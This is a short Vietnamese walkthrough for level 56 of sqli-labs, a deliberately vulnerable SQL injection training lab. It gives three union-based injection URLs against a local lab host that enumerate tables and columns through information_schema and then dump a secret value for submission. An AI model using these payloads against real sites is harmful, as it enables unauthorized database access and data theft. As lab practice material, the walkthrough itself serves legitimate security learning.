





# Less 56

Thực hiện giống với [Less 55](Less-55.md)



Show tên table

```
http://192.168.84.233/sqli-labs/Less-56/index.php?id=1') union select 1,1,group_concat(table_name) from information_schema.tables where table_schema='challenges' limit 1,1 --+
```



Show các cột trong bảng vừa show được

```
http://192.168.84.233/sqli-labs/Less-56/index.php?id=1') union select 1,1,group_concat(column_name) from information_schema.columns where table_schema='challenges' limit 1,1 --+
```



Show thông tin bên trong bảng

```
http://192.168.84.233/sqli-labs/Less-56/index.php?id=1') union select 1,1,concat(id," ",sessid," ",secret_WKZV," ",tryy) from GQQZOOJF9X limit 1,1 --+
```



Lấy chuối show được submit


